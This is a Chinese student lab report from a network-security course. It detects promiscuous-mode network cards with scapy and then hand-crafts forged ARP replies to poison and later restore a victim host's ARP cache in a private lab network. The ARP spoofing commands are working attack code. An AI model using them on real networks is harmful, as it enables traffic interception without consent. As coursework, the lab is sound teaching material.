


# 第四章 网络监听实验

## 网络拓扑


如图所示网络中的节点基本信息如下：

- 攻击者主机
  - 08:00:27:38:9e:2e / eth0
  - 172.16.111.137
- 受害者主机
  - 08:00:27:af:e7:f0 / eth0
  - 172.16.111.106
- 网关
  - 08:00:27:a6:84:08 / enp0s9
  - 172.16.111.1

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

安装成功


## 实验一：检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```


```
# 在攻击者主机上开启 scapy
sudo scapy
```


```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.106")
```


```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```


```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.106")
```


```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```


通过查资料，了解到promiscping命令会发送 ARP who-has 请求，而且在混杂模式下，网卡会接收所有经过网卡的包，即不会验证MAC地址，但关闭混杂模式后，网卡只接受发给本机的包。

根据以上实验，也可以看出在开启了混杂模式之后，受害者主机接收了数据包。

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```



```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
# 上述命令不能获得网关MAC地址，可以用以下命令
gw_mac
```


```
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.106
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里需要在外面加一层Ethernet帧头才可以“毒化”
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.106", hwdst="08:00:27:38:9e:2e")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```



此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```


回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:a6:84:08", pdst="172.16.111.106", hwdst="08:00:27:af:e7:f0 ")
sendp(restorepkt1, count=100, inter=0.2)
```


此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```


## 补充 FAQ

### [解决安装 python3-pip 时遇到的依赖冲突](https://superuser.com/questions/1555536/cannot-solve-the-the-following-packages-have-unmet-dependencies-issue)

```bash
apt install python3-pip
# Reading package lists... Done
# Building dependency tree
# Reading state information... Done
# Some packages could not be installed. This may mean that you have
# requested an impossible situation or if you are using the unstable
# distribution that some required packages have not yet been created
# or been moved out of Incoming.
# The following information may help to resolve the situation:
# 
# The following packages have unmet dependencies:
#  libc6-dev : Breaks: libgcc-9-dev (< 9.3.0-5~) but 9.2.1-21 is to be installed
# E: Error, pkgProblemResolver::Resolve generated breaks, this may be caused by held packages.
```

```
apt update && apt-get install gcc-9-base libgcc-9-dev libc6-dev
pip3 install scapy[complete] -i https://pypi.tuna.tsinghua.edu.cn/simple
```

[这种方法也可以解决：](https://blog.csdn.net/wohu1104/article/details/105955741/?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_title~default-1.no_search_link&spm=1001.2101.3001.4242)

```
sudo apt install python3 python3-pip                                                   100 ⨯
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
python3 is already the newest version (3.9.2-3).
python3 set to manually installed.
The following additional packages will be installed:
  python-pip-whl python3-wheel
The following NEW packages will be installed:
  python-pip-whl python3-pip python3-wheel
0 upgraded, 3 newly installed, 0 to remove and 16 not upgraded.
Need to get 2,284 kB/2,308 kB of archives.
After this operation, 3,669 kB of additional disk space will be used.
Do you want to continue? [Y/n] Y
Err:1 http://http.kali.org/kali kali-rolling/main amd64 python-pip-whl all 20.3.4-2
  404  Not Found [IP: 192.99.200.113 80]
Err:2 http://http.kali.org/kali kali-rolling/main amd64 python3-pip all 20.3.4-2
  404  Not Found [IP: 192.99.200.113 80]
E: Failed to fetch http://http.kali.org/kali/pool/main/p/python-pip/python-pip-whl_20.3.4-2_all.deb  404  Not Found [IP: 192.99.200.113 80]
E: Failed to fetch http://http.kali.org/kali/pool/main/p/python-pip/python3-pip_20.3.4-2_all.deb  404  Not Found [IP: 192.99.200.113 80]
E: Unable to fetch some archives, maybe run apt-get update or try with --fix-missing?
```

```
 wget https://bootstrap.pypa.io/get-pip.py
 sudo python3 get-pip.py 
```


## 参考链接

[老师的实验要求](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html)

[2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/tree/ch0x04)

[解决安装 python3-pip 时遇到的依赖冲突](https://blog.csdn.net/wohu1104/article/details/105955741/?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_title~default-1.no_search_link&spm=1001.2101.3001.4242)